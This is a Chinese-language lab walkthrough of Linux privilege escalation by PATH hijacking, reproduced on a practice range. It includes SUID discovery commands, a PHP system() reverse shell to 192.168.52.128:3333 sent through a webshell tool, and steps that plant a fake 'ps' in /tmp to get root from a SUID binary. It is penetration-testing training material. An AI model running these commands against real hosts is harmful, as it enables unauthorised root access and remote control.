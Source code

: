 # 环境变量提权

借鉴文章[LINUX提权之环境变量提权篇 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/598231396)

## 利用条件

存在一个文件，利用su权限执行，普通用户可以执行此文件，但只限制在一个目录下可以执行

## 利用方式

将此文件的目录添加到环境变量中

```bash
export PATH=/tmp:$PATH
```

echo $PATH 命令可以查看环境变量

## 漏洞复现

这里借用红日7靶场进行复现

这里已经进入一台linux主机

```bash
find / -perm -u=s -type f 2>/dev/null
```

从根目录查找具有root权限的二进制执行文件

![image-20231205182628029](http://111.229.225.13:81/i/2023/12/12/x9m4m8-2.png)

没有找到可以进行suid提权的命令

但是发现了/home/jobs/shell

瞅一眼

![image-20231205182913335](http://111.229.225.13:81/i/2023/12/12/x9lp4c-2.png)

运行后创建了一个shell进程 （cmd表示执行的命令根据sh可知）

 基于此推测使用环境变量提权的方式进行

考虑采用kali终端会更方便，用蚁剑命令执行反弹shell到kali中（这里需要使用蚁剑的代码执行插件）

![image-20231205185032272](http://111.229.225.13:81/i/2023/12/12/x9l77r-2.png)

```bash
system('bash -c "bash -i >& /dev/tcp/192.168.52.128/3333 0>&1" ');
```

可能第一次无法反弹上去，需要多几次

然后在kali依次输入一下命令

```bash
cd /tmp #进入临时目录
echo "/bin/bash" > ps #写入bash命令放入ps文件
chmod 777 ps #给此文件赋予权限
echo $PATH  #查看环境变量
export PATH=/tmp:$PATH # 将/tmp添加到环境变量中，并且先加载执行/tmp里的程序
cd /home/jobs
./shell 
# 然后就获得了root权限，可以执行命令了
```

![image-20231205185556734](http://111.229.225.13:81/i/2023/12/12/x9jj3b-2.png)

使用

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
```

进入交互式终端

![image-20231205185915045](http://111.229.225.13:81/i/2023/12/12/x9j44m-2.png)